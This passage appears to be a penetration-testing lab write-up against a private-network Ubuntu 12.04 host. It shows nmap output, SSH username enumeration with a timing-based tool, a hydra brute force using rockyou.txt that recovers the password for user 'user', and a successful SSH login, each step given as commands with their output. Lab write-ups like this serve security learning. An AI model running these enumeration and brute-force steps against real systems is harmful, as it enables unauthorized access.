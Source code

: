 ```bash
Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 2s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 25 14:21:18 2024 -- 1 IP address (1 host up) scanned in 189.88 seconds
```



- Used the wordlist from [here](https://github.com/W-GOULD/ssh-user-enumeration) and the original tool from [here](https://github.com/nccgroup/ssh_user_enum) 


```bash
❯ python2 ssh_enum.py -u ../ssh-user-enumeration/wordlist.txt -i 192.168.0.131

Starting username enumeration
====================
User root took 17.0 seconds
User root exists
User admin took 1.0 seconds
User user took 18.0 seconds
User user exists
User test took 2.0 seconds
User guest took 2.0 seconds
User ubuntu took 2.0 seconds
User kali took 2.0 seconds
User john took 2.0 seconds
User jane took 2.0 seconds
User smith took 2.0 seconds


The following users were valid (settings were - multiplier of 20000 and a threshold of 14:
===========================
root
user
```

We can then attempt to brute force SSH with the username we have at hand. which was successful.

```bash
❯ hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.131 -v
--SNIP--
[22][ssh] host: 192.168.0.131   login: user   password: letmein
[STATUS] attack finished for 192.168.0.131 (waiting for children to complete tests)
[STATUS] 2049199.86 tries/min, 14344399 tries in 00:07h, 6 to do in 00:01h, 9 active
1 of 1 target successfully completed, 1 valid password found
```



Got the password and logged in via SSH as the user in which password was cracked for.


```bash
❯ ssh user@192.168.0.131
user@192.168.0.131's password: 
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Aug 25 21:57:25 BST 2024

  System load:  0.06             Processes:           95
  Usage of /:   90.2% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.0.131
  Swap usage:   0%

```